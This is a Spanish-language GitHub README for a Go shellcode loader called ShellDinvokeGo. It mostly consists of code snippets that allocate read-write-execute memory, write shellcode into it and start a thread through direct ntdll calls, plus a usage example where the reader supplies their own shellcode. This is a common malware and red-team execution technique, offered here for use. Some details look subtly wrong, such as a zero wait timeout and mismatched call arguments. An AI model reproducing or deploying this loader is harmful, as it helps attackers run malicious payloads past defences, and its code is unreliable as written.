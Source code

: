 # ShellDinvokeGo
ShelldeinvokeGo
# ExecuteShellcode

Este repositorio contiene un programa en Go que demuestra cómo ejecutar shellcode en memoria utilizando llamadas directas a la API de Windows (conocido como DInvoke). A continuación se describe en detalle el funcionamiento del código proporcionado.

## Descripción del Código

El código está diseñado para:
1. Asignar memoria virtual en el espacio de direcciones del proceso actual.
2. Escribir el shellcode proporcionado en la memoria asignada.
3. Crear un nuevo hilo en el proceso actual que ejecuta el shellcode.
4. Esperar a que el hilo termine su ejecución.
5. Liberar la memoria asignada si se produce algún error durante estos pasos.

### Estructuras y Tipos Definidos

- `HANDLE`, `PVOID`, `ULONG`, `NTSTATUS`: Tipos definidos para manejar los diferentes datos necesarios para las llamadas a la API de Windows.

### Variables Globales

- `ntdll`: Carga la librería `ntdll.dll`.
- `ntAllocateVirtualMemory`, `ntWriteVirtualMemory`, `ntCreateThreadEx`, `ntWaitForSingleObject`, `ntFreeVirtualMemory`: Definición de las funciones necesarias de `ntdll.dll`.

### Función `ExecuteShellcode`

La función `ExecuteShellcode` toma un `[]byte` que contiene el shellcode y realiza los siguientes pasos:

1. **Asignación de Memoria Virtual**
    ```go
    status, _, _ := ntAllocateVirtualMemory.Call(
        uintptr(0xFFFFFFFFFFFFFFFF),          // ProcessHandle: -1 (proceso actual)
        uintptr(unsafe.Pointer(&baseAddr)),   // BaseAddress
        uintptr(0),                           // ZeroBits
        uintptr(unsafe.Pointer(&regionSize)), // RegionSize
        uintptr(MEM_COMMIT|MEM_RESERVE),      // AllocationType
        uintptr(PAGE_EXECUTE_READWRITE),      // Protect
        uintptr(0),                           // ProcessHandle
    )
    ```

2. **Escritura en Memoria Virtual**
    ```go
    status, _, _ = ntWriteVirtualMemory.Call(
        uintptr(0xFFFFFFFFFFFFFFFF),            // ProcessHandle: -1 (proceso actual)
        uintptr(baseAddr),                      // BaseAddress
        uintptr(unsafe.Pointer(&shellcode[0])), // Buffer
        uintptr(len(shellcode)),                // BufferLength
        uintptr(unsafe.Pointer(&bytesWritten)), // NumberOfBytesWritten
        0,                                      // Reserved
    )
    ```

3. **Creación de Hilo**
    ```go
    status, _, _ = ntCreateThreadEx.Call(
        uintptr(unsafe.Pointer(&threadHandle)),
        uintptr(0x1FFFFF),           // DesiredAccess
        uintptr(0),                  // ObjectAttributes
        uintptr(0xFFFFFFFFFFFFFFFF), // ProcessHandle
        uintptr(baseAddr),           // lpStartAddress
        uintptr(0),                  // lpParameter
        uintptr(0),                  // CreateSuspended
        uintptr(0),                  // StackZeroBits
        uintptr(0),                  // SizeOfStackCommit
        uintptr(0),                  // SizeOfStackReserve
        uintptr(0),                  // bytesBuffer
    )
    ```

4. **Espera a que el Hilo Termine**
    ```go
    status, _, _ = ntWaitForSingleObject.Call(
        uintptr(threadHandle), // hObject
        uintptr(0),            // bAlertable
        uintptr(0),            // dwMilliseconds
    )
    ```

5. **Liberación de Memoria en Caso de Error**
    En caso de error en cualquiera de los pasos anteriores, se libera la memoria asignada:
    ```go
    _, _, err := ntFreeVirtualMemory.Call(
        uintptr(0xFFFFFFFFFFFFFFFF), 
        uintptr(unsafe.Pointer(&baseAddr)), 
        uintptr(unsafe.Pointer(&regionSize)), 
        uintptr(MEM_RELEASE)
    )
    ```

### Ejemplo de Uso

```go
shellcode := []byte{...} // Define tu shellcode aquí
baseAddr, err := ExecuteShellcode(shellcode)
if err != nil {
    log.Fatalf("Error ejecutando shellcode: %v", err)
}
fmt.Printf("Shellcode ejecutado en la dirección: %x\n", baseAddr)


Notas
Seguridad: Este código ejecuta shellcode arbitrario en el proceso actual, lo cual puede ser peligroso y debe manejarse con extrema precaución.
Compatibilidad: Este código está diseñado para ejecutarse en sistemas operativos Windows debido a su dependencia de la API de Windows (ntdll.dll).
Licencia
Este proyecto está licenciado bajo la MIT License.

